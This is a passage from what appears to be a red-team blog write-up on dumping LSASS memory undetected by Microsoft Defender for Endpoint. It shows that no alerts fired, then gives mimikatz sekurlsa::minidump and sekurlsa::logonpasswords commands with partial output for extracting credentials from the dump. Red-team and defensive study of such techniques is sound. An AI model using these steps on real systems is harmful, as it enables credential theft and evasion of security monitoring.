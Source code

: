 
![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180648.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)

### Credential Extraction from dump file

Extract credentials form the .dmp file with `mimikatz` (I did this by copying the `minidump` file to my machine) as follows:

```
PS D:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump mini.dmp
Switch to MINIDUMP : 'mini.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'mini.dmp' file for minidump...

Authentication Id : 0 ; 59179014 (00000000:03870006)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 23-08-2023 14:19:50
SID               : S-1-5-90-0-2
        msv :
```